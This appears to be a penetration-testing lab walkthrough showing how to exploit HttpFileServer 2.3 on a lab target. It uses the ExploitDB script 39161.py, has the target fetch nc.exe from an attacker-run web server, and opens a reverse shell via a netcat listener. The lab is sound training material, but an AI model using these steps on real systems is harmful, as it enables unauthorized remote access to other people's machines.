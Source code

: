 # 🔬Fixing Exploits - HFS

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
> * Same as the [HFS - MSF Exploit Lab](../the-metasploit-framework-msf/exploitation.md)
> * Target IP: `10.0.29.29`
> * Manually exploit the target with **ExploitDB exploits**
> * Attacker machine is offline

```bash
nmap -sV 10.0.29.29
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49175/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

* Use `searchsploit` to identify `HttpFileServer httpd 2.3` vulnerabilities

```bash
searchsploit  HTTP File Server 2.3 
```

<figure><img src="../../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>

* Copy the exploit to the Desktop

```bash
cd Desktop/
searchsploit -m 39161.py
```

<figure><img src="../../../../.gitbook/assets/image (239).png" alt=""><figcaption></figcaption></figure>

### Analyzing the Exploit <a href="#analyzing-the-exploit" id="analyzing-the-exploit"></a>

```bash
vim 39161.py 
```

<figure><img src="../../../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

* Try to run it based on the usage but nothing will happen.

```bash
python 39161.py 10.0.29.29 80  
```

Read the exploit

* _You need to be using a web server hosting netcat (http://\<attackers\_ip>:80/nc.exe). You may need to run it multiple times for success!_
* `ip_addr` - change to attacker Kali Linux IP
* `local_port` - change to 1234

<figure><img src="../../../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

### Execute the Exploit <a href="#execute-the-exploit" id="execute-the-exploit"></a>

* Save and run the exploit

```bash
# In a new terminal session
cd Desktop/
cp /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer 80
```

```bash
# In a new terminal session
# Run the netcat listener on the exploit specified "local_port"
nc -nvlp 1234
```

```bash
# From the first terminal windows, run the exploit
python 39161.py 10.0.29.29 80 # connect
python 39161.py 10.0.29.29 80 # gain shellcd \
```

<figure><img src="../../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

```bash
whoami
systeminfo
```

<figure><img src="../../../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>
